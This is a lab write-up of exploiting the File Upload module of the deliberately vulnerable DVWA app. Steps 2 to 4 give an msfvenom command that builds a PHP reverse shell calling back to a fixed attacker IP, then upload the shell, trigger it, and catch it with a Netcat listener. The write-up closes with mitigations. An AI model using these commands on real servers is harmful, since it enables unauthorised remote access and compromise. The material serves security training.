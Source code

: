 # File Upload Vulnerability Writeup

## Overview
File Upload vulnerabilities occur when an application allows files to be uploaded without properly validating their type, size, or content. This can allow attackers to upload malicious scripts, leading to remote code execution or data exfiltration.

---

## **Steps Taken**

### 1. Identifying the Vulnerability
- Navigated to the File Upload module in DVWA.
- Observed that the module allowed uploading of files without any apparent validation.

### 2. Creating a Malicious Payload
Used `msfvenom` to create a PHP reverse shell payload:
```bash
msfvenom -p php/reverse_php LHOST=192.168.191.128 LPORT=4444 -f raw > shell.php
```
- The payload connects back to the attacker's machine, providing a reverse shell for remote access.

- ![Reverse-Shell-Payload-Generation](https://github.com/user-attachments/assets/99a7095e-a219-4e31-b58a-c550e0450b30)
  <p align="center">Reverse Shell Payload Generation</p>

### 3. Uploading the Payload
- Uploaded `shell.php` via the File Upload module.
- Confirmed successful upload by accessing the upload directory:
  ```
  http://127.0.0.1/hackable/uploads/shell.php
  ```
- ![Uploaded-shell.php](https://github.com/user-attachments/assets/a4fb12d1-b7f7-43eb-ac8b-bd0b0c2763f9)
  <p align="center">Uploaded shell</p>

### 4. Establishing a Reverse Shell
- Started a Netcat listener to capture the reverse shell connection:
  ```bash
  nc -lvnp 4444
  ```
- Triggered the malicious script by visiting its URL.
- Successfully gained a reverse shell as the `www-data` user.

- ![Successful-Reverse-Shell Connection](https://github.com/user-attachments/assets/d0aceb73-a5aa-4e4e-9a06-4206a25fc80f)

  <p align="center">Successful Reverse Shell Connection</p>

---

## **Analysis**
- **Impact:**
  - An attacker can upload malicious scripts, enabling remote code execution.
  - Potential compromise of the web server and access to sensitive files.
  - Possibility of further exploitation through privilege escalation.

- **Exploitability:**
  - Exploiting file upload vulnerabilities is straightforward if there is no file validation.

---

## **Mitigation Strategies**
1. **File Type Validation:**
   - Restrict allowed file types to only those necessary (e.g., `.jpg`, `.png`).
   - Validate file MIME types on the server side.

2. **Content Scanning:**
   - Scan uploaded files for malicious content using antivirus or sandboxing tools.

3. **Rename Files:**
   - Rename uploaded files to prevent execution (e.g., append a `.txt` extension).

4. **Restrict Execution:**
   - Configure the upload directory to prevent execution of scripts.

5. **Use Secure Libraries:**
   - Use libraries or frameworks that provide secure file upload handling.

---

